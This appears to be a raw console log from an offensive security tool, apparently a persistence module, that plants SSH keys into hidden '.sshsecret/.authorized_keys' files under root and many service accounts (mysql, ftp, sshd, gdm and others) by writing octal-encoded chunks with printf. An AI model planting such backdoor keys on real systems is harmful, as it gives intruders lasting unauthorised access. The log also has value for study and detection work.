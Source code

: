     [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Adding key to /home/user/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 761 bytes in 1 chunks of 2910 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /root/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /sbin/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /usr/games/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/adm/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/cache/rpcbind/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/empty/saslauth/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/empty/sshd/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/ftp/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/gopher/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/lib/avahi-autoipd/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/lib/gdm/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/lib/hsqldb/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/lib/mysql/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/lib/nfs/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/run/avahi-daemon/.sshsecret/.authorized_keys